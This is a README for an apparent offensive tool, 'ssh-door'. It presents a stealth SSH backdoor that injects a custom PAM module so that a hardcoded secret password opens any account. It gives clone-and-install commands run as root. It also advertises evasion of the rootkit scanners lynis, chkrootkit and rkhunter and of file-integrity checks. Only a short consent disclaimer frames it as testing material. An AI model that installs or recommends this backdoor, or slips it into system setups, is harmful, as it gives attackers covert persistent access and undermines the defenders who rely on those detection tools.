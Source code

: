 ```
                █████          █████
                ░░███          ░░███
  █████   █████  ░███████    ███████   ██████   ██████  ████████
 ███░░   ███░░   ░███░░███  ███░░███  ███░░███ ███░░███░░███░░███
░░█████ ░░█████  ░███ ░███ ░███ ░███ ░███ ░███░███ ░███ ░███ ░░░
 ░░░░███ ░░░░███ ░███ ░███ ░███ ░███ ░███ ░███░███ ░███ ░███
 ██████  ██████  ████ █████░░████████░░██████ ░░██████  █████
░░░░░░  ░░░░░░  ░░░░ ░░░░░  ░░░░░░░░  ░░░░░░   ░░░░░░  ░░░░░

```
A simple stealth SSH backdoor leveraging PAM shared object (.so) injection to bypass authentication and gain SSH access.

# How it works

This script creates a PAM backdoor by injecting a custom `.so` module that intercepts SSH login attempts. Unlike traditional PAM backdoors that modify existing system files (e.g., `pam_unix.so`), this method creates a separate PAM module, making it less detectable.

When a user attempts to SSH into the system, the injected module captures the password. If the entered password matches the predefined secret password (hardcoded at compile time), authentication is granted regardless of system credentials.

# Usage
```bash
git clone https://github.com/flashnuke/ssh-door.git && cd ssh-door
sudo bash install.sh <predefined_password>
sudo systemctl restart sshd # or 'sudo service sshd restart' for non-systemd
```
Once the script finishes and sshd service is restarted, simply log into the target machine using `ssh <user>@<ip>` and enter the predefined password.

### Usage Example
<img width="395" alt="image" src="https://github.com/user-attachments/assets/179709d0-b1e2-4ee2-9199-fd27143caa66" />

### Notes
* Avoids direct modification of system PAM files (`/lib/security/pam_unix.so` remains untouched)
* Passes security checks (`lynis`, `chkrootkit`, `rkhunter`), avoiding common backdoor detection methods
* Does not alter SSH configuration files (i.e `~/.ssh/authorized_keys`...), making it harder to spot
* In rare cases PAM is enabled in `/etc/ssh/sshd_config`

  
### Requirements
* Linux system with PAM-based authentication
* Root access
* SSH service (sshd) running on the target machine

# Disclaimer

This tool is only for testing and can only be used where strict consent has been given. Do not use it for illegal purposes! It is the end user’s responsibility to obey all applicable local, state and federal laws. I assume no liability and am not responsible for any misuse or damage caused by this tool and software.

Distributed under the GNU License.
